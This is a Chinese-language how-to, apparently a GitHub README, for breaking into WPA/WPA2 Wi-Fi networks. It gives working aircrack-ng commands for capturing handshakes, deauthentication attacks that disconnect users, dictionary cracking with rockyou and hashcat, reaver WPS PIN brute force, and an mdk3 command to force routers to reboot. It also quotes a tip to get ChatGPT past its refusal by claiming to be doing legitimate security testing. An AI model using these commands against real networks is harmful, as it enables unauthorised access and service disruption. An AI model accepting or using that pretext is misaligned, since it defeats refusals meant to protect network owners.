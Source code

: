 # Wi-Fi Brute Force Attacks <br> 暴力破解 WPA 或 WPA2 无线局域网

## 在开始破解之前

1. 使用密码管理器
2. 别对人开玩笑
3. 别进监狱

> ### 关于 ChatGPT
>
> 如果你需要一些来自 ChatGPT 的协助，不应该直接问它如何破解 Wifi。
> 它会告诉你，这是违法的，并且侵犯了个人隐私。
> 你需告诉他，你正在进行合法的网络安全的测试才行。

## 抓包+字典爆破

需要有人正在连接该路由器，才可以抓包。

### 获取附近的路由器列表

```sh
# 安装需要的软件
sudo apt-get install aircrack-ng

# 列出当前网卡
airmon-ng

# 监听网卡
airmon-ng start <网卡名称>

# 停止监听网卡
# airmon-ng stop <网卡名称>

# 启用监听模式接口
iwconfig

# 终止返回错误的进程
airmon-ng check kill

# 获取附近的路由器列表
airodump-ng <接口的名称>
```

> **在网络名称旁看到 WPA 或 WPA2，可以继续下一步**
> 记住路由器的MAC地址和信道号（CH）

### 监听所选网络以抓取握手包

```sh
airodump-ng -c <CH> --bssid <MAC> -w <目录> <接口名称>
airodump-ng -c 3 --bssid 9C:32:A9:C3:2E:D1 -w /root/Desktop wlp3s0
```

看到屏幕右上角出现`WPA handshake: <Mac地址>`的提示后，继续下一步。
按 `Ctrl+C`退出`airodump-ng`，检查目录下是否有`.cap`文件。

#### 强行握手

如果不想等待，可以使用 Deauth 攻击强行握手，然后再继续下一步。
Deauth 攻击会向你尝试破解的路由器发送恶意的取消身份验证包。
从而造成网络断线并要求用户重新登录。
一旦用户登录，你就能获得握手包。

看到两个连续的MAC地址以及包含生产商名称的字符串后。
打开新的终端，发送Deauth包。

```sh
aireplay-ng -0 2 -a <MAC1> -c <MAC2> <接口名称>
# 2 是指发送的数据包数量。
# 将 <MAC1> 替换为原终端，窗口底部最左侧的MAC地址。
# 将 <MAC2> 替换为原终端，窗口底部最右侧的MAC地址。
```

### 破解密码

Tips：下面的不用看，直接某宝搜关键词 `cap` `跑包` `hashcat` `跑字典`

#### 下载字典文件

最常用的是`Rock You`

```sh
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

如果 WPA 或 WPA2 密码不在字典里，`aircrack-ng`就无法破解。

#### 使用 CPU

```sh
aircrack-ng -a2 -b <MAC> -w rockyou.txt <name>.cap
```

如果看见`KEY FOUND!`标题，就代表`aircrack-ng`找到了密码

#### 使用 GPU

如果电脑有独显，可以使用 [`naive-hashcat`](https://github.com/brannondorsey/naive-hashcat)
使用独显破解的速度会比使用cpu会快得多。

##### 转换为 hccapx 格式

将`.cap`文件转换为`hccapx`格式。
可以使用 Kali Linux 的转换工具来转换。

```sh
# cap2hccapx.bin
# https://github.com/hashcat/hashcat-utils/releases/

cap2hccapx.bin name.cap name.hccapx
```

##### 使用 naive-hashcat

```sh
# 下载
sudo git clone https://github.com/brannondorsey/naive-hashcat

# 进入目录
cd naive-hashcat

# 下载字典文件到 dicts 子目录
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# 将所有 <name> 替换为 .cap 文件转换后的名称
HASH_FILE=<name>.hccapx POT_FILE=<name>.pot HASH_TYPE=2500 ./naive-hashcat.sh

# HASH_FILE 是一个文本文件，每行一个哈希。这些是要破解的密码散列。
# POT_FILE 是输出文件的名称，hashcat将向其写入破解的密码哈希。
# HASH_TYPE 是哈希类型代码。它描述了要破解的哈希类型。2500 | WPA/WPA2
```

## 用路由器WPS漏洞破解

路由器都提供 WPS 功能，通过这个功能，用户可以使用 PIN 码登录到路由器。
但这个 PIN 码的长度只有 8 位，而且可能的取值只有11000种
所以我们可以进行简单粗暴的穷举 PIN 码破解，这种破解方法在目标 AP 开启了 WPS 功能的情况下是可以百分之百破解它的。

```sh
# 切换无线网卡到监听模式
airmon-ng start <网卡名称>

# 查看附近 WLAN 网络
airodump-ng <接口名称>

# 找出开启了 WPS 功能、可以使用 PIN码 登录的路由器
# 记录下该 AP 的 BSSID （约等于该 AP 的 MAC 地址）
wash -i <接口名称>

# 开始进行 PIN码 穷举破解
# 末尾的参数是 2 个小写字母 v
reaver -i <接口名称> -b <BSSID> -vv

# -i 无线网卡名称
# -b 目标AP 的 MAC 地址
# -vv 显示更多的非严重警告
# -S 使用最小的 DH key，可以提高破解速度
# -d 即 delay 每穷举一次的闲置时间 预设为1秒
# -c 信道编号
# -p PIN码四位或八位（可以用8位直接找到密码）
```

破解完成后，查看并记录下 PIN码 和 密码
获取到 PIN码 后，以后即便路由器更换了密码，也可以很迅速地通过 PIN码 重新获得新密码。

### 注意事项

1. 如果在执行 reaver 命令后看到有 `WARNING: Failed to associate with xx:xx:xx:xx:xx:xx` 这样的提示信息，那么应该是你选择了一个不具备或关闭了 WPS 功能的路由器。这种情况下就执行 wash 命令并重新选择一个路由器吧。
2. 如果在执行 reaver 命令后看到有 `warning detected ap rate limiting waiting 60 seconds before re-checking` 这样的提示信息，这表示目标路由器开启了防 PIN破解 功能。因为我们是穷举 PIN码 进行破解的，当连续使用超过某个次数的 PIN码 后，路由器会暂时锁定 WPS 功能一段时间。这种情况下要么我们耐心等待其恢复 WPS 功能，要么执行 `mdk3 wlan0mon a -a xx:xx:xx:xx:xx:xx` （这是上面的目标AP的MAC地址）命令让路由器主动重启或被动重启以恢复 WPS 功能。

## 参考文献

- [如何使用Kali Linux破解WPA或WPA2无线局域网](https://zh.wikihow.com/%E4%BD%BF%E7%94%A8Kali-Linux%E7%A0%B4%E8%A7%A3WPA%E6%88%96WPA2%E6%97%A0%E7%BA%BF%E5%B1%80%E5%9F%9F%E7%BD%91)
- [使用reaver命令穷举PIN码破解WPA2-PSK加密的无线网络](https://javaforall.cn/136049.html)

## 然并卵

密码不在字典内，没有破解成功。
最后找学姐直接要到了wifi密码。
总结：社工才是yyds
